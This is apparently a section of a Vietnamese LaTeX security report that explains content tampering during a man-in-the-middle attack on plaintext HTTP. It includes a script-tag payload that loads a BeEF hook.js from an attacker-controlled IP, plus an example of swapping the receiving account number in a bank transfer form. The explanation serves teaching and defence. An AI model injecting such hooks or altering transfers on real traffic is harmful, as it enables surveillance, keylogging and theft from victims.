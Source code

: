 \subsection{Giả mạo nội dung (Content Tampering / Malicious Injection)}

Khi luồng lưu lượng truyền thông ở dạng HTTP bản rõ đi qua máy tấn công, kẻ tấn công có quyền kiểm soát toàn bộ tải trọng (Payload) của gói tin. Kẻ tấn công có thể can thiệp theo hai hướng chính:
\begin{enumerate}
  \item \textbf{Chèn mã JavaScript độc hại (Code Injection):} Sử dụng công cụ proxy trung gian (như Mitmproxy, Bettercap hoặc kịch bản Scapy) để chèn thêm thẻ script vào trước thẻ đóng \texttt{</body>}:
\begin{lstlisting}[language=html]
<script src="http://192.168.10.50:3000/hook.js"></script>
\end{lstlisting}
  Đoạn mã này kết nối trình duyệt của nạn nhân vào khung kiểm thử xâm nhập trình duyệt (Browser Exploitation Framework --- BeEF). Từ đó, kẻ tấn công có thể hiển thị thông báo giả mạo yêu cầu cập nhật phần mềm, bật camera hoặc ghi lại từng phím bấm (Keylogger) của nạn nhân.
  \item \textbf{Sửa đổi nội dung giao dịch tài chính (Data Tampering):} Khi nạn nhân thực hiện chuyển khoản hoặc gửi dữ liệu qua form POST, kẻ tấn công đón đầu gói tin và sửa đổi trường dữ liệu:
  \begin{equation}
    \text{account\_receiver} = 0023410647 \quad \longrightarrow \quad \text{account\_receiver} = 9999888877
  \end{equation}
  Máy chủ nhận được gói tin đã bị sửa đổi và xử lý lệnh chuyển tiền sang tài khoản của kẻ tấn công mà người gửi không hề hay biết.
\end{enumerate}

\section{Ma trận đối sánh các kỹ thuật dẫn đường}

Bảng \ref{tab:redirection-comparison} tổng hợp và so sánh toàn diện các khía cạnh kỹ thuật của 6 kỹ thuật dẫn đường đã phân tích.

